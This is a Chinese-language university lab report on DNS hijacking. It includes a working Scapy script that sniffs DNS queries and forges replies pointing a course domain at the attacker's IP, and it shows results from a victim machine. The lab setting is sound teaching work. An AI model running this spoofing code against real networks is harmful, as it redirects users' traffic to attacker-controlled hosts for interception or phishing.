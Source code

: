 # 网安工第三次实验

> 2017011313 刘丰源
> 2017011305 安 di

## DNS 劫持

### 本机启动 apache2

```shell
sudo apt install apache2
sudo /etc/init.d/apache2 start
```

### 开启 DNS 劫持

```shell
sudo pip3 insatll -r requirements.txt
sudo python3 run.py
```

代码如下：

```py
registers = {'ns.course.secrank.cn': '10.0.2.43'}

def prn(pkt):
    cap_domain = str(pkt[DNSQR].qname)[2:len(str(pkt[DNSQR].qname))-2]
    if cap_domain in registers:
        fakeResponse = IP(dst=pkt[IP].src, src=pkt[IP].dst)\
            / UDP(dport=pkt[UDP].sport, sport=53)\
            / DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, qr=1, ancount=1, an=DNSRR(rrname=pkt[DNSQR].qname, rdata=registers[cap_domain]) / DNSRR(rrname=pkt[DNSQR].qname, rdata=registers[cap_domain]))
        send(fakeResponse, verbose=0)

sniff(prn=prn, filter='udp dst port 53', store=0)
```

劫持受害者的 DNS 解析请求，构造 sniff filter：udp dst port 53 。

如果请求的域名为 `ns.course.secrank.cn` ，则返回 `10.0.2.43` ，即自己的 IP 地址。

### 实验结果

进入受害者的机器进行测试。

如图所示，通过 nslookup 可以看出，`ns.course.secrank.cn` 返回的 IP 地址确实是 `10.0.2.43` ：

![](pic/2.png)

访问 `http://ns.course.secrank.cn` ，显示如下：

![](pic/1.png)
